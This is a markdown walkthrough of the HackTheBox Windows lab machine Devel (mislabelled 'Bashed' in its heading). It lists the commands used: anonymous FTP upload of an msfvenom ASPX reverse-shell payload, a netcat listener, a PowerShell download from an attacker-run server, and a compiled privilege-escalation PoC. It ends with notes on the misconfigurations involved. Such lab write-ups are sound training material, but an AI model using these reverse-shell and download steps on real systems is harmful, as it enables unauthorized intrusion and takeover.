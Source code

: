 # Bashed
* Link: https://app.hackthebox.com/machines/Devel
* Type: Windows
* Difficulty: Easy

## Commands Used
* *nmap -sC -sV -oA DIR IPADDRESS* - Nmap scan.

* *ftp IPADDRESS* - to connect to the target using FTP.
* In FTP:
  - To log in as anonymous, type the username as *anonymous* and any password.
  - *put FILENAME* - uploads file
  - *delete FILENAME* - deletes file
    
* *msfvenom -l payloads | grep window* - Search for payloads in Metasploit (The grep is to get payloads specific to Windows)
* *msfvenom -p windows/shell/reverse_tcp LHOST=IPADDRESS LPORT=PORTNUMBER -f aspx -o FILENAME.aspx* (You can change the format to any of the formats supported by metasploit)
* *nc -lvnp 4444* starts a listener (Note that Netcat can only listen to stageless payloads and not staged.)
* *python -m SimpleHTTPServer PORTNUMBER* - Starts a simple HTTP server using python (Can be used to upload files to target system)

* In Windows:
  - *systeminfo* gets information about the system, most importantly,
    1. HotFixes - Indicates updates
    2. System Type - Shows the type of the system
    3. OS Version - Shows the version of the system.
  - *dir* to list files in a directory
  - *type TEXTFILENAME* reads the content of the text file.
  - *EXEFILENAME* runs the exe file.
  - *powershell -c "(new-object System.Net.WebClient).DownloadFile('http://IPADDRESS:PORTNUMBER/FILENAME', 'PATHTODOWNLOAD\FILENAME')"* - Downloads a file using PowerShell.
* *searchsploit -m 40564* - Gets the PoC for the specified CVE.
* *i686-w64-mingw32-gcc FILENAME.c -o FILENAME.exe -lws2_32* compiles a c file into the executable exe.

## Steps
* Start by checking the open ports using nmap (nmap -sC -sV -oA DIR IPADDRESS)
* use *ftp IPADDRESS* to connect (Anonymous Login).
* Since it's Windows it uses ASP/ASPX.
* If you use a x64 payload on a x86 system it will not work. However, if you use a x86 payload on a x64 system it will work. (it's recommended to use reverse TCP - windows/shell/reverse_tcp)
* Create a reverse shell (msfvenom -p windows/shell/reverse_tcp LHOST=10.10.16.3 LPORT=4444 -f aspx -o tempWindows.aspx).
* Upload it to the server using the ftp connection.
* run a netcat listner to listen for the reverse connection.
* Run the file by using any browser.
* Enumerate info about the system.
* Google some privilage escelation exploits (2011-1249 & 40564)
* Get the PoC for the CVE.
* Upload it to the server using a python server and Powershell command.
* Run the payload.
* Now you should have root on the system.
* The flags are in the desktops of the users.

## Why is the machine vulnerable
* FTP anonymous login is enabled when it shouldn't. If there is a necessary need for it then at grant it with limited privileges (i.e. only Download)
* The Machine is not patched/updated. 
